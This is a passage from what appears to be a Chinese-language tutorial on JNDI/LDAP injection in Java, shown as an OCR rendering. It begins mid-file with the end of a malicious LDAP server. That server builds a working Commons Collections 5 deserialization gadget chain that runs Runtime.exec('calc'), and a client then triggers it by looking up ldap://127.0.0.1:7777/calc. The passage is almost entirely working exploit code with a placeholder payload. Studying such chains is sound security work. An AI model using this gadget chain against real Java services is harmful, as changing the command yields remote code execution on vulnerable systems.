 ```java

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}
```

客户端



java

```java
package JNDI;

import javax.naming.InitialContext;

public class ldap_client191 {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/calc");
    }
}
```
